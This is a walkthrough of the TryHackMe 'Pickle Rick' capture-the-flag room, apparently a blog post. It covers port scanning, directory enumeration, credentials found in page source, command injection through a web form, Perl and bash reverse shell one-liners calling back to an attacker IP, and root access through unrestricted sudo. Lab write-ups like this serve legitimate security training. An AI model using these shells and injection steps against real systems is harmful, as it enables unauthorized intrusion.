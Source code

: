 ```yaml
---
layout: post
title: Pickle Rick Writeup
categories: [TryHackMe]
tags: [Command Injection, Web shell, Directory Enumeration, Dirsearch]
---
```


# Pickle Rick
This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.
Check it out here: [TryHackMe](https://www.tryhackme.com/room/picklerick)

## Preface
  Hey there! I'll be honest this was the first time I used a web shell lol and it was indeed much fun, I'll walk you through how I went about it XD, funfact Rick&Morty has been my go-to fav cartoon since 2015, eyepatch morty is my buddy and I genuinely have a deep seated hatred for Jerry and his insipidity ;) but as always I'll be leaving hints before I drop the spoilers, and by spoilers I mean the answers lol just kidding you won't find glaring answers here buddy hehee
  ![image](https://images6.alphacoders.com/876/thumb-1920-876893.jpg)
  
## Hints 
- source page
- command injection?
- web shells
- directory enumeration(try a different directory busting wordlist)
- extensions.(.php)

A'ight so as always, a port scan first::
```
┌──(azazel㉿azazel)-[~/Tryhackme/PickleRick]
└─$ nmap -sC -sV 10.10.220.220 -Pn -vv -p 1-1024 -T4 -o nmap
Warning: The -o option is deprecated. Please use -oN
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-11 18:18 WAT
NSE: Loaded 155 scripts for scanning.
Initiating Connect Scan at 18:18
Scanning 10.10.220.220 [1024 ports]
Discovered open port 80/tcp on 10.10.220.220
Not shown: 1022 closed tcp ports (conn-refused)
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 21:86:91:05:1b:b6:3c:1a:91:a3:6b:a6:fe:a3:28:b9 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDOejy/mcAGAdwTSazZu0TOhmJzXnVoAlpDkpPFEnxBppNiIDf11gJkgAz/kNJ/Xzpy5/r4EcBm5VlyD1OHbgp4BB7/+XmWFLIiombdwcGEYrnXJ86DdY8JPu4enMn85mhi2eI8/QwHk5PmaIBufGk6YAdrAunR2T3UfZriuJB4MXQw4ElicxJ+EEuaaMirwhVx8p9i1HqC2c5U95N22y/CBDETIgGZHkZQkMC2HpHREbcs7tTPQdPbv9TSL7Ie0Tvdi6LFAMx2zZmfBprnAUT6DsNvRmu5uyGisQpw4STgwjPVJ/BJInFEHPS25Afv/2BVMfhX3af6yJQA4QPuBKJF
|   256 91:18:52:30:3e:b6:e0:29:0d:72:91:17:b7:64:05:03 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEehoL4UxfT2BMPVEAxmPHcDhmZhmzE1AD2zqGHtqgDLkdjKE3xMgqVle5l3DNb6D/44/pTyklMJWmPTTY9t8S0=
|   256 d2:1b:90:6d:32:2f:cb:0e:64:af:61:e7:60:34:95:96 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKcg2XsRFJ0X32sAAhVOLEn/LubUccaCEVVDQV6slCHD
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 18:18
Completed NSE at 18:18, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 18:18
Completed NSE at 18:18, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 18:18
Completed NSE at 18:18, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.34 seconds
```
Okay, just ssh and http hmph...

Straight up, I visited the site::
![image](/assets/img/posts/Rick&Morty/r&mLanding.png)

Found nothing but a message from rick in dire need of our help to revert back to human... Quickly I view the page source, always view the source! therein I find this commented out:
```
    Note to self, remember username!

    Username: R1ckRul3s   
 ```
 
 Okay Classic rick keeping hidden reminders for himself, I try the username on port 22 and bruteforce the creds with hydra and realized it could only be 2 things: apparently Rick's pass isn't in a wordlist OR the acquired username is not for ssh, while hydra was still trying I resort to my go-to dir enum tool, Dirsearch!:-)
fire her up and get these hidden directories:
 
 ```
 ┌──(azazel㉿azazel)-[~/Tryhackme/PickleRick]
└─$ dirsearch -u 10.10.220.220 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 30

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 4613

Output File: /home/azazel/.dirsearch/reports/10.10.220.220_22-04-11_18-52-02.txt

Error Log: /home/azazel/.dirsearch/logs/errors-22-04-11_18-52-02.log

Target: http://10.10.220.220/

[18:52:10] Starting: 
[18:52:19] 301 -  315B  - /assets  ->  http://10.10.220.220/assets/
[18:52:34] 200 -   1KB - /index.html
[18:52:40] 200 -  882B  - /login.php
[18:52:48] 200 -   17B  - /robots.txt
[18:52:50] 403 -  301B  - /server-status

Task Completed
                                        
```
 Nothing much only interesting directory is a login page and the robots.txt, checked that out to see any pages disallowed to be crawled and Instead see Rick's catch phrase
 
 ```
 
 Wub############ub
 
 ```
  ![image](https://media2.giphy.com/media/l41lI4bYmcsPJX9Go/giphy.gif?cid=790b76115528c812b615af1876ff62340969d6ac03f0e5bc&rid=giphy.gif&ct=g)
 
 Welp, we have a username and possibly a pass, but goes where exactly? Found a login page and try the creds there:
 
 ![image](/assets/img/posts/Rick&Morty/rick&mortyloginpage.png)
 
 And then we're greeted with an input field which accepts commands--Command Injection took advantage of this and tried to find and read all the ingredients but there is some sort of input filter that prevents us from reading files with cat, tail, head but not less and find lmao! all of what we need, hehee:
 ![image](/assets/img/posts/Rick&Morty/rick&mortyinputfilter.png)
 
 I could grab all the ingredients through this method but that's no fun! and it also felt somewhat restrictive and defeats the initial access idea.
 Now to upload a shell!

 ![iamge](/assets/img/posts/Rick&Morty/rick&mortydirlis.png)
 
 A classic Bash one liner would work::
```
bash -c >& /dev/tcp/ip/8888 0>&1
```
but I felt like exploring other shell one liners out of curiousity I resorted to trying out Perl, grabbed a Reverse shell one liner from [PentestMonkey](https://pentestmonkey.net/):

```
perl -e 'use Socket;$i="10.8.45.27";$p=8888;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

```
NB:: Adjust the parameters to receive the shell, you wouldn't to be sending me a shell, would you now?
 
We're in! and now to comfortably read the Sup3rS3cretPickl3Ingred.txt file

```
www-data@ip-10-10-60-92:/var/backups$ cat Sup3rS3cretPickl3Ingred.txt
mr. ###### hair
```
Found the second ingredient in Rick's Home directory::
```
www-data@ip-10-10-60-92:/home/rick$ cat second\ ingredients
1 #### tear
```

Checking sudo permissions, only to find as compensation and horrible security, the www-data user who we are logged in as has sudo permissions to execute EVERYTHING? sheesh!

```
www-data@ip-10-10-60-92:/home/rick$ sudo -l

Matching Defaults entries for www-data on ip-10-10-60-92.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User www-data may run the following commands on ip-10-10-60-92.eu-west-1.compute.internal:
    (ALL : ALL) ALL
```

To make ourselves root and grab the last ingredient::

```
www-data@ip-10-10-60-92:/home/rick$ sudo su
root@ip-10-10-60-92: cd /root; cat 3rd.txt
```
And that's it! We saved Rick and got to see jerry tears too --the joy:-)

Thank you for reading.

Greetings, from [Rami3l](https://www.tryhackme.com/p/Rami3l).
